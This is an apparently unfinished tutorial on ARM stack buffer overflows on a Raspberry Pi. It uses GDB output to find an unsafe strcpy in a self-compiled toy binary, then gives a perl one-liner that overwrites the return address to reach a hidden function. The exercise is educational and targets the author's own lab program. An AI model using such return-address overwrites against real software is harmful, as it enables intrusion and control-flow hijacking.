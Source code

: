 # Buffer overflow on ARM architecture
To be completed :sweat_smile:

## Prerequisites
-	A RaspberryPi and a distro. For this tutorial, I had an up-to-date Raspbian Stretch Lite with LXDE.
-	GCC and GDB.

## ARM registers and stack
TODO

## An example of buffer overflow
### Initial state
- We have a binary without its source code but compiled with debug information.
- We know how to use it: `./prog2 PASS` where `PASS` is a 4-character string.
- We would like to know if there's interesting stuff or even dead code in it.

### Playground
Run GDB:
```bash
gdb prog2
```
What we can disassemble with GDB:
```assembly
(gdb) disassemble
/usr/include/arm-linux-gnueabihf/bits/sys_errlist.h  __gmon_start__                                       frame_dummy
/usr/include/arm-linux-gnueabihf/bits/types.h        __gmon_start__@plt                                   int
/usr/include/libio.h                                 __init_array_end                                     long int
/usr/include/stdio.h                                 __init_array_start                                   long long int
/usr/lib/gcc/arm-linux-gnueabihf/6/include/stddef.h  __libc_csu_fini                                      long long unsigned int
_DYNAMIC                                             __libc_csu_init                                      long unsigned int
_GLOBAL_OFFSET_TABLE_                                __libc_start_main                                    main
_IO_2_1_stderr_                                      __libc_start_main@plt                                prog2.c
_IO_2_1_stdin_                                       __off64_t                                            puts
_IO_2_1_stdout_                                      __off_t                                              puts@plt
_IO_FILE                                             __quad_t                                             register_tm_clones
_IO_lock_t                                           _bss_end__                                           short int
_IO_marker                                           _edata                                               short unsigned int
_IO_stdin_used                                       _end                                                 signed char
__FRAME_END__                                        _fini                                                size_t
__JCR_END__                                          _init                                                sizetype
__JCR_LIST__                                         _start                                               stderr
__TMC_END__                                          abort                                                stdin
__bss_end__                                          abort@plt                                            stdout
__bss_start                                          call_weak_fn                                         strcpy
__bss_start__                                        char                                                 strcpy@plt
__data_start                                         completed                                            sys_errlist
__do_global_dtors_aux                                data_start                                           sys_nerr
__do_global_dtors_aux_fini_array_entry               deregister_tm_clones                                 unsigned char
__dso_handle                                         dont_touch_this                                      unsigned int
__end__                                              exit
__frame_dummy_init_array_entry                       exit@plt
```
Lots of stuff there... We can find at least two interesting:
- `main`
- `dont_touch_this`. Yes, I compiled the code myself for this tutorial. Of course, you should not name critical code like this!

Let's disassemble the main function
```assembly
(gdb) disassemble main
Dump of assembler code for function main:
   0x000104b8 <+0>:     push    {r11, lr}
   0x000104bc <+4>:     add     r11, sp, #4
   0x000104c0 <+8>:     sub     sp, sp, #16
   0x000104c4 <+12>:    str     r0, [r11, #-16]
   0x000104c8 <+16>:    str     r1, [r11, #-20] ; 0xffffffec
   0x000104cc <+20>:    ldr     r3, [r11, #-20] ; 0xffffffec
   0x000104d0 <+24>:    add     r3, r3, #4
   0x000104d4 <+28>:    ldr     r2, [r3]
   0x000104d8 <+32>:    sub     r3, r11, #8
   0x000104dc <+36>:    mov     r1, r2
   0x000104e0 <+40>:    mov     r0, r3
   0x000104e4 <+44>:    bl      0x1032c <strcpy@plt>
   0x000104e8 <+48>:    mov     r3, #0
   0x000104ec <+52>:    mov     r0, r3
   0x000104f0 <+56>:    sub     sp, r11, #4
   0x000104f4 <+60>:    pop     {r11, pc}
End of assembler dump.
```
- No call to `dont_touch_this`. It means this is a dead code section. Why?
- Oh, `strcpy`! We found a breach! This functions must not be used nowadays as it doesn't check buffer length (https://security.web.cern.ch/security/recommendations/en/codetools/c.shtml). We should try a buffer overflow at this line.

If we disassemble `dont_touch_this`, we can get the entry point of this function (address `0x0001049c`):
```assembly
(gdb) disassemble dont_touch_this
Dump of assembler code for function dont_touch_this:
   0x0001049c <+0>:     push    {r11, lr}
   0x000104a0 <+4>:     add     r11, sp, #4
   0x000104a4 <+8>:     ldr     r0, [pc, #8]    ; 0x104b4 <dont_touch_this+24>
   0x000104a8 <+12>:    bl      0x10338 <puts@plt>
   0x000104ac <+16>:    mov     r0, #0
   0x000104b0 <+20>:    bl      0x1035c <exit@plt>
   0x000104b4 <+24>:    andeq   r0, r1, r8, ror #10
End of assembler dump.
```
Putting a breakpoint right after the `strcpy`: 
```assembly
(gdb) break *0x000104e8
Breakpoint 1 at 0x104e8: file prog2.c, line 14.
```
Running the program with valid input and checking registers and stack values:
```assembly
(gdb) run AAAA
Starting program: /home/pi/Documents/tutorial/prog2 AAAA
Breakpoint 1, main (argc=2, argv=0x7efff684) at prog2.c:14
14          return 0;
```

```assembly
(gdb) info registers
r0             0x7efff524       2130703652
r1             0x7efff7d7       2130704343
r2             0x0      0
r3             0x9      9
r4             0x104f8  66808
r5             0x0      0
r6             0x10374  66420
r7             0x0      0
r8             0x0      0
r9             0x0      0
r10            0x76fff000       1996484608
r11            0x7efff52c       2130703660
r12            0x7efff524       2130703652
sp             0x7efff518       0x7efff518
lr             0x104e8  66792
pc             0x104e8  0x104e8 <main+48>
cpsr           0x20000010       536870928
```
```assembly
(gdb) x/16x $sp
0x7efff518:     0x7efff684      0x00000002      0x00000000      0x41414141
0x7efff528:     0x00000000      0x76e80678      0x76fa5000      0x7efff684
0x7efff538:     0x00000002      0x000104b8      0x76ffecf0      0x7efff5d0
0x7efff548:     0xf35a2f10      0xfb4ddc14      0x000104f8      0x00000000
```
- In the stack, we can see our `AAAA` as `0x41414141` (ASCII codes, little-endian).
- `0x76e80678` is the return address.

Same thing with longer input:
```assembly
(gdb) run ABCDABCD
Starting program: /home/pi/Documents/tutorial/prog2 ABCDABCD
```

```assembly
(gdb) x/16x $sp
0x7efff518:     0x7efff684      0x00000002      0x00000000      0x44434241
0x7efff528:     0x44434241      0x76e80600      0x76fa5000      0x7efff684
0x7efff538:     0x00000002      0x000104b8      0x76ffecf0      0x7efff5d0
0x7efff548:     0xc9cf5894      0xc1d8ab90      0x000104f8      0x00000000
```
- As expected, we find the `0x44434241` twice (corresponds to `ABCD`).  

```assembly
(gdb) continue
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x76e80600 in __libc_start_main (main=0x7efff684, argc=1996115968, argv=0x76e80600 <__libc_start_main+156>, init=0x104f8 <__libc_csu_init>,
    fini=0x10558 <__libc_csu_fini>, rtld_fini=0x76fdf9b8 <_dl_fini>, stack_end=0x7efff684) at libc-start.c:247
247     libc-start.c: No such file or directory.
```
If we continue the program execution, we see a segfault while the return address is `0x76e80600`..
There's already a buffer overflow here. However, it would be useful to redirect it to the `dont_touch_this` method to see what's in there.

```bash
pi@raspberrypi:~/Documents/tutorial $ ./prog2 $(perl -e 'print "ABCDABCD\x9c\x04\x01";')
The master key is 0xDEADBEEF
```
YES! We entered the dead code and found a master key :smiling_imp:
- `ABCDABCD` to fill the stack with some bytes (it could be anything).
- The next 3 bytes are the entry point of `dont_touch_this` in little endian (see GDB output).
- I was lucky because this binary was compiled without stack protection. It seems a bit crazy but, on a default Raspbian distro, the `fstack-protector` flag is not enabled...

If I tried my buffer overflow attack when the binary has been compiled with the stack protector, I would get the following message:
```bash
*** stack smashing detected ***: ./prog2 terminated
Aborted__
```

## References
https://www.merckedsecurity.com/blog/smashing-the-arm-stack-part-1

http://billyellis.net/
